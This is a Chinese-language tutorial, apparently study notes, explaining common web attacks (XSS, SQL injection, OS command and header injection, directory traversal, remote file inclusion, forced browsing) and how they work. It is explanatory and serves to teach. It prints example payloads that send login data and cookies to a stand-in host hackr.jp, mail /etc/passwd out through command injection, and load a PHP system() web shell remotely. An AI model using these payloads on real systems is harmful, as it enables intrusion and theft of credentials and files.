# 针对 Web 的攻击技术  

目前，来自互联网的攻击大多是冲着 Web 站点来的，它们大多把 Web 应用作为攻击目标。

## HTTP 不具备必要的安全功能  

HTTP 就是一个通用的单纯协议机制。因此它具备较多优势，但是在安全性方面则呈劣势。  开发者需要自行设计并开发认证及会话管理功能来满足 Web 应用的安全。 而自行设计就意味着会出现各种形形色色的实现。结果，安全等级并不完备， 可仍在运作的 Web 应用背后却隐藏着各种容易被攻击者滥用的安全漏洞的 Bug。  

## 在客户端即可篡改请求  

在 Web 应用中，从浏览器那接收到的 HTTP 请求的全部内容，都可以在客户端自由地变更、 篡改。所以 Web 应用可能会接收到与预期数据不相同的内容。  

在 HTTP 请求报文内加载攻击代码，就能发起对 Web 应用的攻击。通过 URL 查询字段或表单、 HTTP 首部、 Cookie 等途径把攻击代码传入，若这时 Web 应用存在安全漏洞，那内部信息就会遭到窃取，或被攻击者拿到管理权限。  



## 针对 Web 应用的攻击模式  

对 Web 应用的攻击模式有以下两种：

- 主动攻击
- 被动攻击  

### 以服务器为目标的主动攻击  

主动攻击（ active attack）是指攻击者通过直接访问 Web 应用，把攻击代码传入的攻击模式。 由于该模式是直接针对服务器上的资源进行攻击，因此攻击者需要能够访问到那些资源。  

主动攻击模式里具有代表性的攻击是 SQL 注入攻击和 OS 命令注入攻击。  



### 以服务器为目标的被动攻击  

被动攻击（ passive attack）是指利用圈套策略执行攻击代码的攻击模式。在被动攻击过程中，攻击者不直接对目标 Web 应用访问发起攻击。被动攻击通常的攻击模式如下所示：



- 攻击者诱使用户触发已设置好的陷阱，而陷阱会启动发送已嵌入攻击代码的 HTTP 请求  
- 当用户不知不觉中招之后，用户的浏览器或邮件客户端就会触发这个陷阱  
- 中招后的用户浏览器会把含有攻击代码的 HTTP 请求发送给作为攻击目标的 Web 应用，运行攻击代码  
- 执行完攻击代码，存在安全漏洞的 Web 应用会成为攻击者的跳板，可能导致用户所持的 Cookie 等个人信息被窃取，登录状态中的用户权限遭恶意滥用等后果  

利用被动攻击，可发起对原本从互联网上无法直接访问的企业内网等网络的攻击。只要用户踏入攻击者预先设好的陷阱，在用户能够访问到的网络范围内，即使是企业内网也同样会受到攻击。  



# 因输出值转义不完全引发的安全漏洞  

实施 Web 应用的安全对策可大致分为以下两部分：

- 客户端的验证
- Web 应用端（服务器端）的验证
  - 输入值验证
  - 输出值转义  



多数情况下采用 JavaScript 在客户端验证数据。可是在客户端允许篡改数据或关闭 JavaScript，不适合将 JavaScript 验证作为安全的防范对策。保留客户端验证只是为了尽早地辨识输入错误， 起到提高 UI 体验的作用。  

从数据库或文件系统、 HTML、邮件等输出 Web 应用处理的数据之际，针对输出做值转义处理是一项至关重要的安全策略。 当输出值转义不完全时，会因触发攻击者传入的攻击代码，而给输出对象带来损害。  

## 跨站脚本攻击  

跨站脚本攻击（ Cross-Site Scripting， XSS）是指通过存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的 HTML 标签或 JavaScript 进行的一种攻击。 动态创建的 HTML 部分有可能隐藏着安全漏洞。就这样，攻击者编写脚本设下陷阱，用户在自己的浏览器上运行时，一不小心就会受到被动攻击。  

跨站脚本攻击有可能造成以下影响：

- 利用虚假输入表单骗取用户个人信息
- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求
- 显示伪造的文章或图片  

### 跨站脚本攻击案例  

下面以编辑个人信息页面为例讲解跨站脚本攻击：



此处输入带有山口一郎这样的 HTML 标签的字符串：

  

删除线显示出来并不会造成太大的不利后果， 但如果换成使用 script 标签将会如何呢。  

跨站脚本攻击属于被动攻击模式，因此攻击者会事先布置好用于攻击的陷阱。下图网站通过地址栏中 URI 的查询字段指定 ID，即相当于在表单内自动填写字符串的功能。 而就在这个地方，隐藏着可执行跨站脚本攻击的漏洞。  



充分熟知此处漏洞特点的攻击者，于是就创建了下面这段嵌入恶意代码的 URL。并隐藏植入事先准备好的欺诈邮件中或 Web 页面内，诱使用户去点击该 URL ：

```
http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script><span+s="
```

浏览器打开该 URI 后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。 当用户在表单内输入 ID 和密码之后，就会直接发送到攻击者的网站（也就是 hackr.jp），导致个人登录信息被窃取。   



### 对用户Cookie的窃取攻击  

除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的 Cookie 信息：

```
<script src=http://hackr.jp/xss.js></script>
```

该脚本内指定的 http://hackr.jp/xss.js 文 件。 即下面这段采用 JavaScript 编写的代码：

```
var content = escape(document.cookie);
document.write("");
```

在存在可跨站脚本攻击安全漏洞的 Web 应用上执行上面这段JavaScript 程序， 即可访问到该 Web 应用所处域名下的 Cookie 信息。然后这些信息会发送至攻击者的 Web 网站（ http://hackr.jp/），记录在他的登录日志中。结果，攻击者就这样窃取到用户的 Cookie 信息了：



## SQL 注入攻击  

SQL 注入（ SQL Injection）是指针对 Web 应用使用的数据库，通过运行非法的 SQL 而产生的攻击。该安全隐患有可能引发极大的威胁，有时会直接导致个人信息及机密信息的泄露。  

SQL 注入攻击有可能会造成以下等影响：

- 非法查看或篡改数据库内的数据
- 规避认证
- 执行和数据库服务器业务关联的程序等  

### SQL注入攻击案例  

下面以某个购物网站的搜索功能为例，讲解 SQL 注入攻击。通过该功能，我们可以将某作者的名字作为搜索关键字，查找该作者的所有著作：





```
SELECT * FROM bookTbl WHERE author = '上野宣' and flag = 1;
```

刚才指定查询字段的上野宣改写成“上野宣 '--” ：

```
SELECT * FROM bookTbl WHERE author ='上野宣 '●-●-' and flag=1;
```



SQL 语句中的 -- 之后全视为注释。即， and flag=1 这个条件被自动忽略了：



### SQL注入攻击破坏SQL语句结构的案例  

SQL 注入是攻击者将 SQL 语句改变成开发者意想不到的形式以达到破坏结构的攻击。  



上图中颜色标记的字符串最开始的单引号 (') 表示会将 author 的字面值括起来， 以到达第二个单引号后作为结束。因此， author 的字面值就成了上野宣， 而后面的 -- 则不再属于 author 字面值，会被解析成其他的句法。  

## OS 命令注入攻击  

OS 命令注入攻击（ OS Command Injection）是指通过 Web 应用，执行非法的操作系统命令达到攻击的目的。 只要在能调用 Shell 函数的地方就有存在被攻击的风险。  

OS 命令注入攻击可以向 Shell 发送命令，让 Windows 或 Linux 操作系统的命令行启动程序。 也就是说，通过 OS 注入攻击可执行 OS 上安装着的各种程序。  

### OS注入攻击案例  

下面以咨询表单的发送功能为例，讲解 OS 注入攻击。该功能可将用户的咨询邮件按已填写的对方邮箱地址发送过去。  



下面摘选处理该表单内容的一部分核心代码：

```
my $adr = $q->param('mailaddress');
open(MAIL, "¦ /usr/sbin/sendmail $adr");
print MAIL "From: info@example.com\n";
```

程序中的 open 函数会调用 sendmail 命令发送邮件，而指定的邮件发送地址即 $adr 的值。  

攻击者将下面的值指定作为邮件地址：

```
; cat /etc/passwd ¦ mail hack@example.jp
```

程序接收该值，构成以下的命令组合：

```
¦ /usr/sbin/sendmail ; cat /etc/passwd ¦ mail hack@example.jp
```

攻击者的输入值中含有分号（ ;）。这个符号在 OS 命令中，会被解析为分隔多个执行命令的标记。

可见， sendmail 命令执行被分隔后， 接下去就会执行 cat /etc/passwd | mail hack@example.jp 这样的命令了。结果，含有 Linux 账户信息 /etc/passwd 的文件，就以邮件形式发送给了 hack@example.jp。  

## HTTP 首部注入攻击  

HTTP 首部注入攻击（ HTTP Header Injection）是指攻击者通过在响应首部字段内插入换行， 添加任意响应首部或主体的一种攻击。属于被动攻击模式。  

向首部主体内添加内容的攻击称为 HTTP 响应截断攻击（ HTTP Response Splitting Attack）。  

如下所示， Web 应用有时会把从外部接收到的数值，赋给响应首部字段 Location 和 Set-Cookie ：

```
Location: http://www.example.com/a.cgi?q=12345
Set-Cookie: UID=12345

* 12345就是插入值
```

HTTP 首部注入攻击有可能会造成以下一些影响：

- 设置任何 Cookie 信息
- 重定向至任意 URL
- 显示任意的主体（HTTP 响应截断攻击）  

### HTTP首部注入攻击案例  

下面我们以选定某个类别后即可跳转至各类别对应页面的功能为例，讲解 HTTP 首部注入攻击。该功能为每个类别都设定了一个类别ID 值，一旦选定某类别，就会将该 ID 值反映在响应内的 Location 首部字段内，形如 Location: http://example.com/?cat=101。令浏览器发生重定向跳转：



攻击者以下面的内容替代之前的类别 ID 后发送请求。  

```
101%0D%0ASet-Cookie:+SID=123456789
```

其中， %0D%0A 代表 HTTP 报文中的换行符，紧接着的是可强制将攻击者网站（ http://hackr.jp/）的会话 ID 设置成 SID=123456789 的Set-Cookie 首部字段。发送该请求之后，假设结果返回以下响应：

```
Location: http://example.com/?cat=101（ %0D%0A ：换行符）
Set-Cookie: SID=123456789
```

此刻，首部字段 Set-Cookie 已生效，因此攻击者可指定修改任意的 Cookie 信息。 通过和会话固定攻击（攻击者可使用指定的会话 ID）攻击组合，攻击者可伪装成用户。  

攻击者输入的 %0D%0A，原本应该属于首部字段 Location 的查询值部分，但经过解析后， %0D%0A 变成了换行符，结果插入了新的首部字段。这样一来，攻击者可在响应中插入任意的首部字段。  

### HTTP响应截断攻击  

HTTP 响应截断攻击是用在 HTTP 首部注入的一种攻击。攻击顺序相同，但是要将两个 %0D%0A%0D%0A 并排插入字符串后发送。利用这两个连续的换行就可作出 HTTP 首部与主体分隔所需的空行了，这样就能显示伪造的主体， 达到攻击目的。这样的攻击叫做 HTTP 响应截断攻击。  

```
%0D%0A%0D%0A<HTML><HEAD><TITLE>之后，想要显示的网页内容 <!--
```

在可能进行 HTTP 首部注入的环节，通过发送上面的字符串，返回结果得到以下这种响应：

```
Set-Cookie: UID=（ %0D%0A ：换行符）
（ %0D%0A ：换行符）
<HTML><HEAD><TITLE>之后，想要显示的网页内容 ⇒
<!--（原来页面对应的首部字段和主体部分全视为注释）
```

利用这个攻击，已触发陷阱的用户浏览器会显示伪造的 Web 页面，再让用户输入自己的个人信息等，可达到和跨站脚本攻击相同的效果。  

## 邮件首部注入攻击  

邮件首部注入（ Mail Header Injection）是指 Web 应用中的邮件发送功能，攻击者通过向邮件首部 To 或 Subject 内任意添加非法内容发起的攻击。利用存在安全漏洞的 Web 网站，可对任意邮件地址发送广告邮件或病毒邮件。  

### 邮件首部注入攻击案例  

下面以 Web 页面中的咨询表单为例讲解邮件首部注入攻击。该功能可在表单内填入咨询者的邮件地址及咨询内容后， 以邮件的形式发送给网站管理员：



攻击者将以下数据作为邮件地址发起请求：

```
bob@hackr.jp%0D%0ABcc: user@example.com
```

%0D%0A 在邮件报文中代表换行符。一旦咨询表单所在的 Web 应用接收了这个换行符， 就可能实现对 Bcc 邮件地址的追加发送，而这原
本是无法指定的。另外像下面一样， 使用两个连续的换行符就有可能篡改邮件文本内容并发送：

```
bob@hackr.jp%0D%0A%0D%0ATest Message
```

再以相同的方法，就有可能改写 To 和 Subject 等任意邮件首部，或向文本添加附件等动作。  

## 目录遍历攻击  

目录遍历（ Directory Traversal）攻击是指对本无意公开的文件目录，通过非法截断其目录路径后， 达成访问目的的一种攻击。这种攻击有时也称为路径遍历（Path Traversal）攻击。  

通过 Web 应用对文件处理操作时，在由外部指定文件名的处理存在疏漏的情况下， 用户可使用 .../ 等相对路径定位到 /etc/passed 等绝对路径上，因此服务器上任意的文件或文件目录皆有可能被访问到。这样一来，就有可能非法浏览、篡改或删除 Web 服务器上的文件。  

### 目录遍历攻击案例  

下面以显示读取文件功能为例，讲解目录遍历攻击。该功能通过以下查询字段， 指定某个文件名。然后从 /www/log/ 文件目录下读取这个指定的文件：

```
http://example.com/read.php?log=0401.log
```

攻击者设置如下查询字段后发出请求：

```
http://example.com/read.php?log=../../etc/passwd
```

查询字段为了读取攻击者盯上的 /etc/passwd 文件，会从 /www/log/ 目录开始定位相对路径。 如果这份 read.php 脚本接受对指定目录的访问请求处理，那原本不公开的文件就存在可被访问的风险：



## 远程文件包含漏洞  

远程文件包含漏洞（ Remote File Inclusion）是指当部分脚本内容需要从其他文件读入时， 攻击者利用指定外部服务器的 URL 充当依赖文件，让脚本读取之后，就可运行任意脚本的一种攻击。

### 远程文件包含漏洞的攻击案例  

下面以 include 读入由查询字段指定文件的功能为例，讲解远程文件包含漏洞。 该功能可通过以下查询字段形式指定文件名，并在脚本内的 include 语句处读入这个指定文件：

```
http://example.com/foo.php?mod=news.php
```

对应脚本的源代码如下所示：

```
$modname = $_GET['mod'];
include($modname);
```

攻击者指定如同下面形式的 URL 发出请求：

```
http://example.com/foo.php?mod=http://hackr.jp/cmd.php&cmd=ls
```

攻击者已事先在外部服务器上准备了以下这段脚本：

```
<? system($_GET['cmd']) ?>
```

假设 Web 服务器（ example.com）的 include 可以引入外部服务器的 URL，那就会读入攻击者在外部服务器上事先准备的 URL（ http://hackr.jp/cmd.php）。 结 果， 通 过 system 函 数 就 能 在 Web 服 务 器（ example.com）上执行查询字段指定的 OS 命令了。



在以上攻击案例中，执行了可显示 Web 服务器（ example.com）上文件及目录信息的 ls 命令。  

# 因设置或设计上的缺陷引发的安全漏洞  

因设置或设计上的缺陷引发的安全漏洞是指，错误设置 Web 服务器，或是由设计上的一些问题引起的安全漏洞。 

## 强制浏览  

强制浏览（ Forced Browsing）安全漏洞是指，从安置在 Web 服务器的公开目录下的文件中，浏览那些原本非自愿公开的文件。  

强制浏览有可能会造成以下一些影响：

- 泄露顾客的个人信息等重要情报  
- 泄露原本需要具有访问权限的用户才可查阅的信息内容  
- 泄露未外连到外界的文件  

对那些原本不愿公开的文件， 为了保证安全会隐蔽其 URL。可一旦知道了那些 URL，也就意味着可浏览 URL 对应的文件。直接显示容易推测的文件名或文件目录索引时， 通过某些方法可能会使 URL 产生泄露。

**文件目录一览：**

```
http://www.example.com/log/
```

通过指定文件目录名称，即可在文件一览中看到显示的文件名。  

**容易被推测的文件名及目录名：**

```
http://www.example.com/entry/entry_081202.log
```

文 件 名 称 容 易 推 测（按上面的情况，可推出下一个文件是 entry_081203.log）  

**备份文件：**
http://www.example.com/cgi-bin/entry.cgi（原始文件）
http://www.example.com/cgi-bin/entry.cgi~（ 备份文件）
http://www.example.com/cgi-bin/entry.bak（ 备份文件）
由编辑软件自动生成的备份文件无执行权限， 有可能直接以源代码形式显示。

**经认证才可显示的文件:**
直接通过 URL 访问原本必须经过认证才能在 Web 页面上使用的文件（ HTML 文件、图片、 PDF 等文档、 CSS 以及其他数据等）。  

### 强制浏览导致安全漏洞的案例  

下面我们以会员制度的 SNS 日记功能为例，讲解强制浏览可能导致的安全漏洞。该日记功能保证了除具有访问权限的用户本人以外，其他人都不能访问日记：

 


